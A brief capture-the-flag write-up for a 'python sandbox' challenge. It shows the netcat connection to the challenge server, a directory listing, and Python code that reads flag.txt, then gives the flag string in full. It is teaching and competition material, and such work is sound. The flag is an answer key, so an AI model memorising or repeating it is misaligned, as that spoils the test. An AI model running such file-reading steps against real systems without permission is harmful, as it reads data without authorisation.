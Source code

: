 # sandbox

## Problem statement

I "made" "a" "python" "sandbox" """"
```nc 184.72.87.9 8008```

## Solution

Connect to the remote server
```nc 184.72.87.9 8008```
List the content of the files
```ls```
We can see the following files in the remote server : ```flag.txt```  ```sandbox.py```
Run the python sandbox
```python3 sandbox.py```
Display the flag
```
f = open("flag.txt", "r")
print(f.read())
```
The flag is : **flag{did_you_use_ifs_or_python_let_me_know_down_in_the_comments}**
